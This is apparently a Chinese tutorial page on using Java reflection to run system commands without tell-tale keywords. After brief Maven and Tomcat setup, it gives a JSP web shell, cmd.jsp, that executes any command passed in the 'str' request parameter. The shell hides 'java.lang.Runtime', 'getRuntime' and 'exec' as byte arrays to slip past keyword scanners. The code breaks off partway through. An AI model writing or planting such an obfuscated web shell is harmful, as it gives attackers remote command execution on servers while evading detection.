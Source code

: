 # Java反射机制实现无关键字执行命令




## 搭建环境

新建maven项目 + tomcat 

pom.xml引入servlet

```xml
<dependency>
      <groupId>javax.servlet</groupId>
      <artifactId>javax.servlet-api</artifactId>
      <version>4.0.1</version>
    </dependency>

```





## 代码



cmd.jsp

```jsp
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %><%--
  Created by IntelliJ IDEA.
  User: 19401
  Date: 2022/1/12
  Time: 17:13
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    String str = request.getParameter("str");

    // 定义"java.lang.Runtime"字符串变量
    String rt = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});

    // 反射java.lang.Runtime类获取Class对象
    Class<?> c = null;
    try {
        c = Class.forName(rt);
        // 反射获取Runtime类的getRuntime方法
        Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));

        // 反射获取Runtime类的exec方法
        Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}), String.class);

        // 反射调用Runtime.getRuntime().exec(xxx)方法
        Object obj2 = m2.invoke(m1.invoke(null, new Object[]{}), new Object[]{str});

        // 反射获取Process类的getInputStream方法
        Method m = obj2.getClass().getMethod(new String(new byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
        m.setAccessible(true);

```
